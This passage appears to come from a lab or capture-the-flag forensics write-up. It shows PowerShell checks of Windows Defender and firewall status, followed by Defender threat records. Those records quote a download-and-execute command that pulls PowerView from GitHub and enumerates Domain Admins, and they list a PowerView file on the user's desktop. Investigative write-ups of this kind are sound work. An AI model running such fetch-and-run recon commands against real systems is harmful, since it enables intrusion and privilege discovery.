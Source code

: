 Windows Defender seems to be running but `realtimeprotection` is disabled, let's check the host based firewall:

```
PS C:\Users\kkidd> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain    False
Private   False
Public    False
```

Host-Based Firewall is disabled.

**Second Question**

Let's use the following command:

```powerhsell
Get-MpThreat | Format-List *
```

We get:

```
CategoryID            : 8
DidThreatExecute      : False
IsActive              : False
Resources             : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins',
                        internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAdUq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                        powershell IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 5
ThreatID              : 2147725325
ThreatName            : Trojan:PowerShell/Powersploit.G
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : False
IsActive              : False
Resources             : {file:_C:\Users\kkidd\Desktop\PowerView.ps1, containerfile:_C:\Users\kkidd\Desktop\PowerView.ps1, file:_C:\Users\kkidd\Desktop\PowerView.ps1->(UTF-8)}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 4
ThreatID              : 2147755688
ThreatName            : HackTool:PowerShell/PowerView
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : True
IsActive              : False
```